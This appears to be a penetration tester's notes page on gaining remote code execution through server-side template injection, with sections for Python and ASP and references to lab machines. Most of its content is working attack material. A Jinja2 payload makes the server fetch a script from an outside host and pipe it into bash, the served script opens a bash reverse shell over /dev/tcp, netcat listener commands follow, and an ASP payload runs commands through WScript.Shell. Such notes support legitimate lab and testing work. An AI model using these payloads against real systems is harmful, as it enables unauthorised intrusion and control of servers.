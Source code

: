 ```yaml
---
description: >-
  RCE via SSTI
title: RCE via SSTI              # Add title here
date: 2023-01-31 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, RCE via SSTI]                     # Change Templates to Writeup
tags: [exploitation, rce, ssti]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

Server-side template injection vulnerabilities can expose websites to a variety of attacks depending on the template engine in question and how exactly the application uses it. In certain rare circumstances, these vulnerabilities pose no real security risk. However, most of the time, the impact of server-side template injection can be catastrophic.

### PYTHON

There are several sources to get SSTI payloads to test such as [payloadbox](https://github.com/payloadbox/ssti-payloads) and [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), this one has a detailed explanation about this vulnerability and a methodology that we can use to test inputs for SSTI abuse.

First we need to inject our payload within the request:
```bash
POST / HTTP/1.1
.
.
costume={{+self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl+http%3a//10.10.16.5 | bash').read()+}}&q=ad&addr=ad
```
Create a script and name it as index.html:
```bash                                                              
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.16.5/1235 0>&1'
```
Start our python under the same path as index.html to share it:
```bash
sudo python3 -m http.server 80

nc -lvnp 1235
```
Examples:
[Epsilon](https://shuciran.github.io/posts/Epsilon/#fnref:rce-ssti)

### ASP
Another source for SSTI is to be found on [hackingdream](https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html) web site, additionally to the python payloads this is interesting because it provides an ASP payload.

It is possible to exploit an ASP SSTI with the following payload:
```bash
<%response.write (7*7)%>
```
If the response reflects a "49" then you can use this payload to get RCE:
```bash
<%response.write CreateObject("WScript.Shell").Exec("cmd /c ping -n 1 10.10.14.4").StdOut.Readall()%>
```
Examples:
[[Anubis#^95c992]]